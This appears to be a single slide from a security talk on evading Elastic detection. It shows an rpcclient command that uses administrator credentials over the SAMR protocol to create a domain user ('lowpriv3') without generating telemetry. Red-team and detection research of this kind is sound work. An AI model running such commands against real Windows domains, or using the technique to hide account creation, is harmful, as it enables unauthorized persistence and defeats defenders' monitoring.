

# Perceptual Bypass

This means that if we somehow add a user using the lowest protocol in the chain, we might have better chances of evading that detection. Let’s try with rpcclient and leveraging the SAMR protocol directly:

This time, no detections from Elastic!

No telemetry = No detections

| rpcclient -U "administrator%1qazxsw2.." 192.168.182.163 -c "createdomuser lowpriv3" |
| --- |